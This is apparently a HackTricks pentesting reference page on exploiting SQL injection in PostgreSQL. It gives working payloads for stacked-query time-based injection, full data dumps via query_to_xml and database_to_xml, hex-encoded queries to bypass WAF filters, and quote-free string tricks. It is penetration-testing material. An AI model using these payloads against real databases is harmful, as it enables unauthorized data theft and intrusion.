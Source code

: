 # PostgreSQL injection

{{#include ../../../banners/hacktricks-training.md}}

<figure><img src="../../../images/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

---

**This page aims to explain different tricks that could help you to exploit a SQLinjection found in a postgresql database and to compliment the tricks you can find on** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

The **PostgreSQL module `dblink`** offers capabilities for connecting to other PostgreSQL instances and executing TCP connections. These features, combined with the `COPY FROM` functionality, enable actions like privilege escalation, port scanning, and NTLM challenge response capture. For detailed methods on executing these attacks check how to [perform these attacks](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltration example using dblink and large objects**

You can [**read this example**](dblink-lo_import-data-exfiltration.md) to see a CTF example of **how to load data inside large objects and then exfiltrate the content of large objects inside the username** of the function `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Check how to compromise the host and escalate privileges from PostgreSQL in:

{{#ref}}
../../../network-services-pentesting/pentesting-postgresql.md
{{#endref}}

## WAF bypass

### PostgreSQL String functions

Manipulating strings could help you to **bypass WAFs or other restrictions**.\
[**In this page** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**you can find some useful Strings functions.**

### Stacked Queries

Remember that postgresql support stacked queries, but several application will throw an error if 2 responses are returned when expecting just 1. But, you can still abuse the stacked queries via Time injection:

```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```

### XML tricks

**query_to_xml**

This function will return all the data in XML format in just one file. It's ideal if you want to dump a lot of data in just 1 row:

```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```

**database_to_xml**

This function will dump the whole database in XML format in just 1 row (be careful if the database is very big as you may DoS it or even your own client):

```sql
SELECT database_to_xml(true,true,'');
```

### Strings in Hex

If you can run **queries** passing them **inside a string** (for example using the **`query_to_xml`** function). **You can use the convert_from to pass the string as hex and bypass filters this way:**

```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```

### Forbidden quotes

If cannot use quotes for your payload you could bypass this with `CHR` for basic clauses (_character concatenation only works for basic queries such as SELECT, INSERT, DELETE, etc. It does not work for all SQL statements_):

```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```

Or with `$`. This queries return the same results:

```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```

<figure><img src="../../../images/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

{{#include ../../../banners/hacktricks-training.md}}

